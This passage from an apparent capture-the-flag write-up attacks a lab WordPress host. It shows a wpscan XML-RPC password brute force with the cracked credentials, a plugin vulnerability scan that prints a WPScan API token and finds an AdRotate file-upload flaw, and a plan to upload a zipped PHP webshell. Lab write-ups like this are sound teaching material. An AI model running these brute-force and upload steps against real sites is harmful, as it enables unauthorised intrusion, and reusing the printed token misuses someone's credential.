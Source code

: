 No other user than `loly` seems to exist, so we can try brute force its password.

{% code overflow="wrap" %}
```bash
$ sudo wpscan --password-attack xmlrpc -t 20 --url http://loly.lc/wordpress/ -U loly -P /usr/share/wordlists/rockyou.txt

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando
Trying loly / kisses Time: 00:00:03 <       > (180 / 14344572)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: loly, Password: fernando
 
 <SNIP>
```
{% endcode %}

Although, we managed to find `loly`'s password and we now have administrative access to the application, there is no Theme Editor tab under Appearance, so we don't have the [typical way of getting a reverse shell](../../tools/web/cms/wordpress.md#rce). We can grab a [WPScan token](https://wpscan.com/) and scan `loly.lc` for potential plugin-related vulnerablities.

{% code overflow="wrap" %}
```bash
$ sudo wpscan --url http://loly.lc/wordpress --enumerate --api-token Rn8AfqvZBKuDxllbMCWYSYff2YNyDhTGhgLr0SHOy7I -e vp

<SNIP>
 | [!] Title: AdRotate < 5.13.3 - Admin+ Double Extension Arbitrary File Upload
 |     Fixed in: 5.13.3
 |     References:
 |      - https://wpscan.com/vulnerability/a670dc87-ed79-493a-888d-afd7cb99269e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1206
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/9f92219a-e07e-422d-a9f2-dbe4fbcd5f55
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt
<SNIP>
```
{% endcode %}

There are five potential vulnerablities for the `adrotate` plugin, including a double extension arbitraty file upload. Before digging deeper into each one of them, we can carefully review on the information that is presented in front of us: the plugin itself lets us know which extensions are allowed as well as the `zip` files are automatically extracted (Figure 2). As a result, we can create a PHP webshell, zip it, and then upload it to the server.


[^1]: Brute Force Attack
[^2]: Living of the Land
[^3]: Living of the Land
[^4]: Living of the Land